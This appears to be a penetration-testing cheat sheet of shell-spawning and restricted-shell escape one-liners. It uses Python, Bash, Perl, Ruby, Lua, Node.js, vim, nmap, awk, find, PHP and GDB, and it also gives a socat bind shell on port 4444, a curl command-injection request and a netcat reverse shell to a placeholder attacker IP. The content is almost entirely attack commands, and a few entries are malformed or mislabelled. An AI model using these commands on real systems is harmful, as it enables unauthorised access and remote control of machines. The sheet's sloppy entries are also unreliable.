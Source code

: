 ### General Shell Spawning Commands:
1. **Python**:  
   ```bash
   python -c 'import pty; pty.spawn("/bin/sh")'
   ```
   ```bash
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   ```

2. **Bash**:  
   ```bash
   /bin/sh -i
   ```
   ```bash
   /bin/bash -i
   ```

3. **Perl**:  
   ```bash
   perl -e 'exec "/bin/sh";'
   ```
   ```bash
   perl: exec "/bin/sh";
   ```

4. **Ruby**:  
   ```bash
   ruby -e 'exec "/bin/sh"'
   ```

5. **Lua**:  
   ```bash
   lua -e 'os.execute("/bin/sh")'
   ```

6. **Node.js**:  
   ```bash
   require('child_process').spawn('/bin/sh', {stdio: 'inherit'});
   ```

---

### From Interactive Tools or Applications:

1. **IRB (Ruby Interactive Shell)**:  
   ```bash
   exec "/bin/sh"
   ```

2. **VI or VIM**:  
   Command within VI:  
   ```bash
   :!bash
   ```  
   Set the shell to bash and execute:  
   ```bash
   :set shell=/bin/bash
   :shell
   ```

3. **Nmap** (when NSE script functionality is enabled):  
   ```bash
   !sh
   ```

4. **AWK**:  
   ```bash
   awk 'BEGIN {system("/bin/sh")}'
   ```

5. **Find**:  
   ```bash
   find / -exec /bin/sh \;
   ```

6. **PHP**:  
   ```php
   php -r 'system("/bin/sh");'
   ```

---

### Using Lesser-Known Utilities:

1. **Socat** (if installed):  
   ```bash
   socat exec:'sh',pty,stderr,setsid,sigint,sane tcp-listen:4444
   ```

2. **Java**:  
   ```java
   Runtime.getRuntime().exec("/bin/sh");
   ```

3. **GDB** (GNU Debugger):  
   ```bash
   !sh
   ```

---

### Network or HTTP-based Exploits:
1. **Curl Command Injection**:  
   ```bash
   curl -X POST http://<target> -d 'cmd=/bin/sh'
   ```

2. **Netcat** (Reverse Shell):  
   ```bash
   nc -e /bin/sh <attacker_ip> <port>
   ```

